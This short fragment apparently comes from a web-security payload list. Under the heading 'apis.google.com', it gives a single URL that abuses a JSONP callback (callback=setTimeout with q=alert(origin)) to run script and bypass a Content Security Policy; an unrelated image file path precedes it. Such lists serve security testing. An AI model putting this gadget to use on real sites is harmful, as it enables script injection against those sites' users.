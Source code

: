 ## apis.google.com

```
https://apis.google.com/complete/search?client=chrome&q=alert(origin)//&callback=setTimeout"
```
